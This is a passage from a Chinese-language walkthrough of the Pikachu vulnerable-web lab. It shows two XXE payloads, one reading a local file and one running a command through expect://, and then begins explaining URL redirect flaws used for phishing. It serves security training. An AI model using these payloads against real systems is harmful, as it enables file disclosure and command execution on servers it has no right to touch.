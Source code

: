 ![image](../../../assets/img/安全/实验/pikachu/70.png)

payload,请先确定目标路径有这个文件
```xml
<?xml version = "1.0"?>
<!DOCTYPE note [
<!ENTITY aaa SYSTEM "file:///c:/1.txt">]>
<name>&aaa;</name>
```

![image](../../../assets/img/安全/实验/pikachu/71.png)

在 linux 下还可以输入这样的 payload
```XML
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "expect://ifconfig">
]>
<x>&f;</x>
```

---

## URL 重定向

不安全的 url 跳转问题可能发生在一切执行了 url 地址跳转的地方。
如果后端采用了前端传进来的(可能是用户传参,或者之前预埋在前端页面的 url 地址)参数作为了跳转的目的地,而又没有做判断的话
就可能发生"跳错对象"的问题。

url跳转比较直接的危害是: 钓鱼,既攻击者使用漏洞方的域名(比如一个比较出名的公司域名往往会让用户放心的点击)做掩盖,而最终跳转的确实钓鱼网站,一般的流程是,跳转漏洞-->钓鱼页面-->提交用户名密码-->跳转回来
